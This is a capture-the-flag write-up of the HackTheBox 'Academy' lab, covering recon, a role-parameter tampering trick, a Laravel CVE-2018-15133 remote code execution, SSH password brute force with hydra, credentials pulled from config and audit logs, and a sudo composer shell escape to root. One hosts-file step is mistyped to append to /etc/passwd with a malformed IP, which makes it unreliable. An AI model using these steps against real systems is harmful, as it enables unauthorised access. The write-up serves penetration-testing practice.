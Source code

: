 ```yaml
---
title: "Hackthebox Academy Write-up"
date: 2021-02-26 12.40 
categories: [Hackthebox, Linux]
tags: [CVE-2018–15133, suid, privesc]
author: CEngover
image: /assets/img/posts/academy/academy.png
---
```


Hello, in this article I'll try to explain the solution of academy machine. The machine released in [Hackthebox](https://www.hackthebox.eu/) which is also one of the most populer penetration testing labs. 

### Reconnaissance

- Nmap Scanning
- Finding Vhost

### Exploitation

- Exploiting CVE-2018–15133

### Privilege Escalation Part 1

- Local reconnaissance
- Becoming cry0l1t3 user

### Privilege Escalation Part 2

- Finding useful audit logs
- Becoming mrb3n user

### Privilege Escalation Part 3

- Abuse of composer SUID bit


## Reconnaissance

### Nmap Scanning

First of all, let's do nmap scanning as always.

> sudo nmap -sC -sV -oA nmap/academy-open-ports -v 10.10.10.215

```bash
# Nmap 7.91 scan initiated Thu Feb 25 05:27:13 2021 as: nmap -sC -sV -oA nmap/academy-open-ports -v 10.10.10.215
Nmap scan report for 10.10.10.215
Host is up (0.075s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:90:a3:d8:35:25:6f:fa:33:06:cf:80:13:a0:a5:53 (RSA)
|   256 2a:d5:4b:d0:46:f0:ed:c9:3c:8d:f6:5d:ab:ae:77:96 (ECDSA)
|_  256 e1:64:14:c3:cc:51:b2:3b:a6:28:a7:b1:ae:5f:45:35 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://academy.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

As seen in the result of nmap, we have 2 ports open. SSH is running on port 22 and it has OpenSSH 8.2p1 version. Also nmap says it's an ubuntu server. The other one is HTTP which is running on port 80 and  has Apache 2.4.41 version. Moreover, we have a domain name which is `academy.htb`, can be seen in the result. Let's add it to our hosts file.

> sudo echo "10.10.10.215    academy.htb" >> /etc/hosts

In main page we can see that there are some pages where we can do user registration and log in. Let's try to find hidden directories and files.

> gobuster dir -u http://academy.htb -w /usr/share/wordlists/dirb/big.txt -x php,html,txt -t 100 -o academy-root-dir

```bash
/.htpasswd (Status: 403)
/.htpasswd.txt (Status: 403)
/.htpasswd.html (Status: 403)
/.htpasswd.php (Status: 403)
/.htaccess (Status: 403)
/.htaccess.php (Status: 403)
/.htaccess.txt (Status: 403)
/.htaccess.html (Status: 403)
/admin.php (Status: 200)
/config.php (Status: 200)
/home.php (Status: 302)
/images (Status: 301)
/index.php (Status: 200)
/login.php (Status: 200)
/register.php (Status: 200)
/server-status (Status: 403)
```

After finding hidden directories and files, we notice that there is also one more page which is `admin.php`. Let's jump into `register.php` page and create a user. Once we capture the request with burpsuit, we see that there is a `roleid` parameter and Its value is 0.

![Registration Request](/assets/img/posts/academy/registration.png)

If we change the value of roleid 0 to 1 we can access to some secret places. Now, we have user credentials and login pages. We can access the admin portal with the user we created on the registration page.

### Finding VirtualHost

![Admin Page](/assets/img/posts/academy/adminpage.png)

Once we log in we see that there is a virtualhost called `dev-staging-01.academy.htb`. Let's add it to hosts file, as well.

> sudo echo "10.10.10.2.15   dev-staging-01.academy.htb" >> /etc/passwd

Visit the virtualhost and look around. We see there are some useful information about the page such as APP_NAME = Laravel, APP_KEY = something.

![Laravel Config](/assets/img/posts/academy/laravel.png)

After a quick search I found a vulnerability for Laravel which is `Remote Code Execution`. Searching on the internet and I found this [laravel Exploit](https://github.com/aljavier/exploit_laravel_cve-2018-15133).

## Exploitation

Once we run the exploit that we found, we can run any command on the target. 

![Access](/assets/img/posts/academy/access.png)

We gain reverse shell on the system if we replace the exploit arguments like given in the picture.

## Privilege Escalation Part 1

In this part we can use `linpeas.sh` for information gathering. I came cross with `.env` which is like config file for laravel and saw that there is a db password. Also I found one more password in `config.php` file. Let's try ssh with these passwords.

```bash
mySup3rP4s5w0rd!!
GkEWXn4h34g8qx9fZ1

### passwords
```

```bash

g0blin
ch4p
cry0l1t3
mrb3n
egre55
21y4d

###users
```
> hydra -L users -P password 10.10.10.215 ssh

![SSH Brute Force](/assets/img/posts/academy/ssh.png)

We escalate our privileges to `cry0l1t3` user by using the same database password. Now, we can read user flag.

![User Flag](/assets/img/posts/academy/userflag.png)

## Privilege Escalation Part 2

When we list the groups that we're in, we can see that we're member of `adm` group. This group's members can read `/var/logs`. Let's run linpeas agains the system and chech what we have.

![Audit log](/assets/img/posts/academy/audit.png)

Linpeas tells us that there is a login activity with the `su` command. The text that seen next to `data` parameter will be what we need. When we convert that data with hexadecimal to text, we've `mrb3n_Ac@d3my!` password. We can use this password to login as `mrb3n` user.

## Privilege Escalation Part 3

Now, we have more privilege on the system and we have to be root.

![Sudo Privileges](/assets/img/posts/academy/sudo.png)

If we check commands that we can run with sudo rights, we can see that we can use `composer` with sudo. [GTFOBins](https://gtfobins.github.io/gtfobins/composer/) can help us about how can we abuse this binary.

![Getting Root](/assets/img/posts/academy/root.png)

```bash
TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
sudo composer --working-dir=$TF run-script x
```

We gain root access by following the given commands and see root flag.